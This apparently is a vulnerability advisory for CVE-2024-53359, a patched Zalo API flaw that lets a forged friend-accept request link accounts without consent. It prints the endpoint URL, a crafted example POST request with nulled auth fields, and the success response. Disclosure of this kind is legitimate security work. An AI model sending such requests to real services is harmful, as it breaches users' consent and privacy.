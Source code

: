 # CVE-2024-53359: Zalo API Vulnerability Allows Adding Friends Without Consent

## Overview
A vulnerability in Zalo (v23.09.01) allows attackers to add friends without user consent by exploiting insecure permissions in the API. Discovered in April 2024, this issue was patched by Zalo on April 15, 2024.

---

## Details

### Affected API
- **Endpoint**: `ACCEPT_FRIEND`  
  **URL**: `https://friend.talk.zing.vn/api/friend/accept`

### Exploit
By sending a crafted POST request to the `ACCEPT_FRIEND` endpoint with specific parameters, attackers could force a friend connection without user approval.  

Example POST request:
```http
POST https://friend.talk.zing.vn/api/friend/accept
Content-Type: application/json

{
  "actiontime": 1,
  "api_key": "NULL",
  "avatarSize": 120,
  "clientType": 1,
  "session_key": "NULL",
  "sign": "NULL",
  "ts": "NULL",
  "userId": 397726729,
  "sig": "NULL"
}
```

If the server returns:
```json
{
  "code": 0
}
```
It means the friend request was successfully accepted.

---

## Impact
- **Type**: Insecure Permissions
- **Effect**: Allows unauthorized friend connections if the attacker's side has your phone number.
- **CVSS Score**: 5.3 (Medium)

---

## Timeline
- **Discovery**: Early April 2024  
- **Fix Released**: April 15, 2024  

---

## Embedded Video
Click below to watch the detailed video explanation of the vulnerability:

[Click to watch the video](./video/video-explanation.mp4)

---

## Disclaimer
This document is for informational purposes only. Do not exploit this vulnerability.
